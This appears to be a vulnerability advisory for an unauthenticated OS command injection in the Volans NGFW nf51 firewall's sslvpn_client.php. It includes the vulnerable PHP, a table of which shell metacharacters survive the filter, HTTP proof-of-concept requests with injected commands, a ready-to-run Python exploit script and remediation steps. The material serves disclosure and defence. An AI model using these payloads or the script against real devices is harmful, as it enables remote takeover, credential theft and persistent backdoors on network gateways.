

# Volans NGFW (nf51) Next-Generation Firewall / Internet Behavior Management Gateway

- Vendor: Volans (飞鱼星科技 / ADSLR, adslr.com)
- Product: NGFW Next-Generation Firewall / Internet Behavior Management Gateway
- Product Model: nf51 (internal version r5.1, source tree NGFW_R5.0)
- Firmware Version: nf51.bin (filesystem date 2021-09-01)
- Vulnerability Type: Unauthenticated OS Command Injection

# Description

The `sslvpn/sslvpn_client.php` script under the web document root of the Volans NGFW firmware `nf51.bin` (internal version `r5.1`) performs **no authentication** and interpolates the user-controlled `img` parameter into a shell command **without quoting** (line 54: `exec('cp -f /mnt/'.$img.' ...')`). An attacker can achieve arbitrary command execution with the privileges of the web service process using a single HTTP GET that carries no Cookie.

This endpoint is by design meant to serve the logo image to unauthenticated SSLVPN portal visitors and should not perform any sensitive operation; however, the vendor uses it to perform a shell file copy with no escaping, allowing shell metacharacters in the parameter to inject arbitrary commands. 

# Impact

Unauthenticated remote arbitrary command execution — with **no credentials and no user interaction**, an attacker can:

- Read/write arbitrary files, exfiltrate web management credentials and VPN configuration;
- Install persistent backdoors;
- Pivot into the internal network for lateral movement;
- Because the injection point writes directly into the served document root (`/usr/local/webui/sslvpn/public/images/`), an attacker can also place files there alongside the command execution.

# Vulnerability Details

## 1. Affected Component and Root Cause

The vulnerability resides in the PHP script `/sslvpn/sslvpn_client.php` (1854 bytes, md5 `5e0329e62ed257e107bd25b862137d76`).

**Taint source** — line 52 reads the `img` parameter from the HTTP request:

```php
if($_GET['client']=='logoImg'){
    if($_GET['img']) $img = formatpost($_GET['img']);                    // 52
    exec('cp -f /mnt/'.$img.' /usr/local/webui/sslvpn/public/images/');  // 54  <- SINK
    echo $img;                                                           // 55  <- free echo oracle
    return;
}
```

**Taint sink** — line 54's `exec()` concatenates `$img` into a shell command. Because `$img` is unquoted and shell metacharacters are not filtered, an attacker can inject arbitrary commands.

**The only "filter" applied is `formatpost()`** (`webui/include/func.inc:105`), which is **HTML output escaping** (`htmlspecialchars`), not shell escaping. PHP 7's `htmlspecialchars()` defaults to `ENT_COMPAT`, escaping only `& < > "`. Measured character survival matrix (via the free echo oracle at line 55):

| Character | Survives | Note |
|---|---|---|
| `;` | ✅ | command separator |
| `\|` | ✅ | pipe |
| `` ` `` | ✅ | command substitution |
| `$` | ✅ | `$( )` / `${IFS}` |
| newline `%0A` | ✅ | another separator |
| `'` | ✅ | single quote not handled by ENT_COMPAT |
| space | ✅ | `formatpost()` performs no space stripping (unlike `formatget()`) |
| `#` | ✅ | comment, eats the trailing fixed path |
| `(` `)` | ✅ | subshell |
| `&` | ❌ escaped to `&amp;` | |
| `"` | ❌ escaped to `&quot;` | |
| `<` `>` | ❌ escaped | **so redirection `>` is unusable** |
| `<script>…</script>` | ❌ stripped by regex | |

The characters most useful for redirection (`>` and `<`), plus `&` and `"`, are escaped; the workaround is `|tee`, `|dd of=`, `cp`, `sed -i`, etc., none of which require `>`.

**Root cause**: `sslvpn_client.php` performs no authentication of its own, and line 54's `exec()` concatenates user input into a shell command with no quoting and no shell-metacharacter filtering.

## 2. Authentication Prerequisite

**None.** An attacker only needs network reachability to the device's web management port (80/tcp by default) and sends one HTTP GET with no Cookie / Session / token / Referer.

- The `/sslvpn/` prefix is **not** among the seven `url.access-deny` prefixes in lighttpd `webserver.conf` (deny covers only `/webui/{data,include,indexmods,modules,script,templates,cachedata}/`);
- The lighttpd configuration has **no `mod_auth` rules**; all authentication responsibility is on the PHP side;
- `sslvpn_client.php` itself has no authentication.

## 3. Proof of Concept

### Step 1 — Inject the command (write output into the document root)

```http
GET /sslvpn/sslvpn_client.php?client=logoImg&img=x;id|tee%20/usr/local/webui/sslvpn/public/images/PWN_SEMI.txt;# HTTP/1.1
Host: <target>
```

`;` becomes a real separator, `id` is executed, and its output is written into the served document root via `|tee`; `#` comments out the sink's trailing fixed path.

### Step 2 — Retrieve the command output

```http
GET /sslvpn/public/images/PWN_SEMI.txt HTTP/1.1
Host: <target>
```

Observed response body:

```
uid=0(root) gid=0(root) groups=0(root)
```

> Note: the `uid=0(root)` marker in the reproduction environment is produced by **starting the PHP service with `sudo`**, an artifact of the reproduction environment — it is **not** direct evidence that the device runs as root; device-side root is a configuration inference (see §4).

**Full EXP (Python):**

```python
#!/usr/bin/env python3
# Volans NGFW sslvpn_client.php unauthenticated command injection PoC/EXP
# Usage: python exp.py "id"    —— run one command and read back output (> is escaped, use |tee)
import sys, requests, urllib.parse

TARGET = "http://<device-ip>"            # real device: web management port

def run(cmd):
    inner = "x;%s|tee /usr/local/webui/sslvpn/public/images/pwn.txt;#" % cmd
    q = urllib.parse.quote(inner, safe="")     # URL-encode the whole payload (; | space # all encoded)
    requests.get("%s/sslvpn/sslvpn_client.php?client=logoImg&img=%s" % (TARGET, q), timeout=10)
    r = requests.get("%s/sslvpn/public/images/pwn.txt" % TARGET, timeout=10)
    return r.text

if __name__ == "__main__":
    cmd = " ".join(sys.argv[1:]) if len(sys.argv) > 1 else "id"
    print(run(cmd))
```



### Additional verification — five equivalent constructs

- Five independent shell-metacharacter constructs (`;`, `|tee`, backtick, `$( )`, newline `%0A`) all hit, each dropping a marker.
- The actual command line executed device-side is recovered from the kernel via `cp /proc/$$/cmdline`:

```
sh -c cp -f /mnt/client.ovpn;cp /proc/$$/cmdline /tmp/fyxsec/SINK_CMDLINE.bin;# /usr/local/webui/sslvpn/public/images/
```

## 4. Root Cause Summary

1. `sslvpn_client.php` performs no authentication (a "forgotten auth" case, not "intentionally public");
2. Line 54's `exec()` concatenates user input into a shell command with no quoting and no shell-metacharacter filtering;
3. The only `formatpost()` is HTML escaping (`htmlspecialchars` ENT_COMPAT) — a category error in a shell context that blocks only a few characters such as `>`.

## 5. Remediation

1. **Add authentication to this script's shell path**: require a valid session before the `logoImg` branch, or move the file copy to an authenticated backend endpoint;
2. **Eliminate shell concatenation**: use the array form of `exec()` or `copy()` (no shell); apply a filename allowlist (e.g. `^[A-Za-z0-9_.-]+$`) and confine to `/mnt/` with `realpath()`;
3. Audit all `exec/system/popen` call sites;
4. Review the other document-root scripts (`Certification.php`, `remote_auth.php`, `exempt_login.php`, `edr_upload.php`) for the same missing self-authentication.
